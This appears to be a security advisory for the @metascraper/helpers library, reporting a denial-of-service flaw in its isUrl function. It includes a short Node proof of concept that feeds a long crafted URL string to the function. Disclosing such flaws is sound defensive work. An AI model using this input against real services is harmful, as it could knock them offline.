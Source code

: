 # Overview

A library to easily scrape metadata from an article on the web using Open Graph, JSON+LD, regular HTML metadata, and series of fallbacks.

Affected versions of this package are vulnerable to Denial of Service. An attacker providing a very long string to `isUrl` function in `packages/metascraper-helpers/index.js` can cause a Denial of Service.

# PoC

```node
const { isUrl } = require('@metascraper/helpers')

const targetUrl = 'http://github.com.asdasdasd.asdsadasdsadsad.asdasdsad.asdsadasdsa.sadasdsadas.dasdasasdasd.432asdas3423.3423423423.234234243.234234234.23423423.24234.'

if (!isUrl(targetUrl)) {
      throw new Error('INVALID_URL')};
```